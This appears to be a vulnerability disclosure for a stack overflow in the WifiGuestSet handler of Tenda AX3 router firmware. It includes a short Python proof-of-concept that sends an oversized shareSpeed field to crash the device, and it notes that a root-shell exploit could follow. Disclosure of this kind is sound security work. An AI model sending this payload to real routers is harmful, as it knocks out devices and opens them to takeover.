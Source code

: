 # Tenda AX3 V16.03.12.11 Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-3476.html

## Affected version

![](https://github.com/yjzy00001/CVE/blob/main/vuln/WifiGuestSet/img/1.png)

## Vulnerability details

![](https://github.com/yjzy00001/CVE/blob/main/vuln/WifiGuestSet/img/2.png)

In /goform/WifiGuestSet，The user passes in shareSpeed, and then the program will use strcpy to copy shareSpeed to shared_up_speed. It is worth noting that there is no size check, which leads to stack overflow vulnerabilities.

## Poc

```python
import requests

url = "http://192.168.0.1/goform/WifiGuestSet"

shareSpeed = "a" * 0x2000

r = requests.post(url, data={'shareSpeed': shareSpeed})
print(r.content)
```

You can see the router crash, and finally you can write exp to get root shell
